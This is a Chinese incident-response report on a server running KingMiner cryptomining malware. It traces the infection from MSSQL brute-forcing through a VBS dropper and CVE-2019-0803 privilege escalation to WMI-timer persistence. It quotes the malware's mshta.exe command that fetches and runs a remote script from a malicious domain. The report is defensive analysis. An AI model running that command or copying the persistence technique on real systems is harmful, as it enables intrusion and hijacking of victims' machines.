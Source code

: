 事件背景
----

忙碌了一天的沐师傅正准备下班，突然一个电话响起XX局被通报《"恶意外连"事件》，需要马上前往客户现场进行应急排查。于是乎沐师傅Wuwuuwu～，背起书包奔赴客户现场。

应急排查
----

### 沟通交流

到达现场后，通过与运维人员沟通了解事件原委：客户收到了上级通报称本单位有服务器/主机IP为`111.x.x.x`存在与恶意域名`news.g23xxx.com`进行通信行为，疑似遭受木马病毒攻击，需要应急排查事情原委，定位存在异常的主机/服务器。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-fc471e6b64182293162414aa5cbbd59b3e2d5d7b.png)

### 定位异常主机/服务器

得知IP `x.x.x.x`为客户互联网出口IP地址，且互联网出入口侧无态势等流量检测设备，通过排查负载、IPS、深信服上网行为管理等日志均未发现内网主机服务器与恶意域名news.g23xxx.com、解析IP`（154.x.x.x）`相关访问日志。  
恶意域名进行分析后发现该恶意域名在威胁情报上被标记为KingMiner挖矿木马，僵尸网络，远控服务器。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-e25abea2aafb58078d67343dc18f8642df36ff9e.png)  
对该恶意域名下的木马样本进行粗略查看，判断该挖矿木马是通过UDP协议进行通信，于是想了个办法，用`Wireshark`旁路到互联网出口上，抓取互联网出口侧全流量，对流量进行过滤筛选`udp &amp;&amp; frame.contains "g23xxx"`，终于发现存在恶意外连的流量请求，成功定位到异常服务器，内网IP地址为10.10.10.10（数据共享平台），为一台SQL Server数据库服务器。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-b6d73ff198b96794d2a8feebef24de438fa861fe.png)

### 上机排查

遂即上机进行排查，进行日志、样本的提取，经过分析日志发现该主机存在大量恶意Powershell进程  
![image.jpeg](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-bd483f706ca323361fea0ad6d1957224cc07989e.jpeg)  
在SQL Server数据库日志中发现该服务器在`2022年3月4日11:17:02`到`2022年5月7日 21:45:15`期间遭受来自境外恶意IP `62.x.x.x`（俄罗斯莫斯科）、`62.x.x.x`（俄罗斯莫斯科）大量爆破行为，最终爆破成功。  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-324d3f5b861b037caed7eff46e702ac8ca30588d.png)  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-97a1f4337e33bfd10a00e2fc92fbd6be68418dbe.png)  
当数据库爆破成功后，该IP在服务器上执行了VBS脚本下载经过`base64编码`的二进制blob文件，经过解码后保存为`C:\\Users\\Public\\Downloads\\\\tool.exe`  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-44fcddce49238e806cd0de444761edd9a0eac3c3.png)  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-18c1cfcc4ba4b7a933d8d2654402c166635a5914.png)  
经过分析该文件`tool.exe`运行后会利用Windows权限提升漏洞`CVE-2019-0803`进行攻击，成功利用此漏洞的攻击者可以在内核模式下运行任意代码，然后可以安装程序；查看、更改或删除数据；或创建具有完全用户权限的新帐户。`tool.exe`在特权模式下执行命令`mshta.exe vbscript:GetObject(\\"script:http\[:\]//aa.30583fdae.tk/r1.txt\\")(window.close)`，通过`mshta.exe`执行脚本`r1.txt`来进行持久化。其中`tool.exe`所请求域名`aa.30583xxxx.tk`为门罗币挖矿木马地址，威胁情报已标记为恶意：  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-0762c28112cf92ddb15d0fcb313cd11c9ab84b46.png)  
`Tool.exe`文件沙箱分析结果：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-25bbab43eb357cda3f9e75dc5ac3fb7f3f8d48c9.png)

行为分析：  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-1bf61a0c8bf8554908b4d6f6a1053894f0c32409.png)

行为分析图：  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-2663995e61fb509c4fca79b31429dc1366589a88.png)

程序运行示例图：  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-db7dfb31b1c50a6f48697e06ce0741f0f7e65f3d.png)

其中下载的`r1.txt`会配置名为`WindowsSystemUpdate \_WMITimer`的计时器，并将执行一段脚本代码的事件消费者`WindowsSystemUpdate\_consumer`通过事件过滤器`WindowsSystemUpdate\_filter`绑定到计时器，从而通过计时器每15分钟执行一次下面的VBS脚本代码：  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-fd346d746bdc691adbc941126e820fcb45fe7108.png)  
WMI定时任务存在并已清除  
![image.jpeg](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-fb8670cc680e792d17a025ae8e999222e0854e4a.jpeg)

后续继续跟进分析发现，可能由于挖矿木马解析IP地址变更，或恶意域名不可达等原因，造成挖矿木马所需的部分程序或脚本未能成功下载到本地，经过排查，仅发现此处`tool.exe`所创建的wmi启动项，定时通过`nslookup`查询恶意域名`"news.g23xxx.com"` DNS记录，造成本服务器访问恶意域名`"news.g23xxx.com"`触发恶意外连告警。

在此次分析过程中，还发现该服务器还存在其他木马病毒，均已提取出样本并清除：  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-f659676151c28a27567ea799ddf907e1ee3872b7.png)  
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/02/attach-b91939056229a2f9ca789f74946ae580fc5f6960.png)  
至此，此次事件初步排查完成，客户已对该服务器进行断网处理，经过全盘木马病毒查杀，启动项删除，并在防火墙上封禁了该恶意域名与IP地址。

应急事件总结
------

【被攻击服务器】：`SQL Server`服务器，数据共享平台  
【攻击链路】：攻击者针对`Windows`服务器`MSSQL`进行爆破攻击，爆破入侵成功后，首先执行一段`VBS`脚本，检测操作系统版本，并根据不同的系统版本下载不同的`Payload`文件，利用下载的文件`tool.exe`进行`(CVE-2019-0803)`提权以及门罗币挖矿。同时还会安装`WMI定时器`和`Windows计划任务`来反复执行指定脚本，执行服务器返回的恶意代码达到持久化攻击的目的；  
【木马病毒类型】：挖矿木马，挖矿类型：`KingMiner`门罗币；  
【安全设备运行情况】：IPS、深信服上网行为管理、服务器本地“火绒”杀毒软件未检测出异常；  
【处置情况】：已成功定位存在异常的内网服务器，已做断网处理，已进行全盘查杀、日志提取、样本提取等工作，客户反馈该服务器已闲置，后续不再投入使用；  
【持续监控】：后续将部署态势感知设备，对恢复后的网站持续监测。